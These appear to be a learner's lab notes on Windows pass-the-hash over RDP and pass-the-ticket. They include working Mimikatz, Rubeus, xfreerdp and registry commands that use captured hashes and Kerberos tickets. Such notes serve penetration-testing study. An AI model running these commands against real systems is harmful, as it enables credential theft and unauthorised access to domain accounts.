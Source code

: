 ### PTH with RDP
We can preform PTH with xfreerdp
Restricted admin mode must be enabled on machine otherwise will be presented with following error.
`Account Restrictions are preventing the user from signing in.`
This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0.
```cmd-session
 reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

### UAC limits
UAC limits local user's ability to perform remote administration operations. 
When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.


## Pass the Ticket - Windows
### Kerebros Protocol Refresher
Kerebros Auth system is ticket based. The central idea is to not give a password to every app you use but to instead keep track of tickets. Using specific tickets only for specific services. 
- The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

*Requires local admin*
### Harvesting Kerberos Tickets from Windows
Tickets processes and stored with LSASS.
`Mimikatz` module `sekurlsa::tickets /export`
The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.

*Pass the Key*
The pass the key approach converts a hash for a domain joined user into a full `Ticket-Granting-Ticket`. 

To Forge tickets we need user's hash.  `sekurlsa::ekeys`

With both we can perform a PTT
```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
##### Reubeus 
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
